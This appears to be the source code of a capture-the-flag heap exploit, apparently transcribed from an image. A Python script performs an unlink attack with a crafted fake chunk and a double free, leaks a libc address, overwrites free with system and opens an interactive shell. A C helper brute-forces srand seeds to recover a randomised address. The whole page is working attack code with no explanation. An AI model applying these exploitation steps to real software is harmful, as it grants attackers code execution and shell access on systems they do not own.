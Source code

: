 ```Python
free_box(2)
free_box(3)
get_box(4, 0x220)

p_addr = seed_addr + seed_to_p_addr
payload = p64(0)+p64(0x101)+p64(p_addr-0x18)+p64(p_addr-0x10)+'A'*(0x100-0x20)+p64(0x100)+p64(0x220-0x100)
leave_msg(4, payload)

free_box(3)#double free
print "after double free, now box 4 pointer has changed and point to p_addr-0x18(box 1)"

bin_sh_addr = show_msg(4)

payload_leak = bin_sh_addr + '\x00\x00' + p64(p_addr+ displ_to_free) + bin_sh_addr + '\x00\x00' #+ bin_sh_addr + '\x00\x00'#p64(p_addr-0x18+displ_to_free+0x10)

leave_msg(4, payload_leak)
free_addr = show_msg(2)
ufree_addr = u64(free_addr + "\x00\x00")
print hex(ufree_addr - free_off + system_off)
leave_msg(2, p64(ufree_addr - free_off + system_off))
sh.send("2")#destroy a box
sh.recvuntil("5) huge\n> ")
sh.send(str("3"))

#leave_msg(4, num_of_As * 'A')
#print show_msg(4).split()
print "succeed"


sh.interactive()



#small 256
#normal 272
#free them
#big 544
#free normal again

```
```C
#include <stdlib.h>
#include <stdio.h>
#define SEED_OFF 0x202148
void proc_srand(unsigned int i)
{
	srand((unsigned int)(i + SEED_OFF));
	printf("\"%d\":%u,", rand(), (unsigned int)(i + SEED_OFF));
}

int main()
{
	//system("/bin/sh");
	printf("{");
	unsigned int i;
	for (i = 0x00000000; i < 0xffffe000; i += 0x1000)
	{
		proc_srand(i);
		/*if (i + SEED_OFF == 0x75b4148)
			getchar();*/
	}
```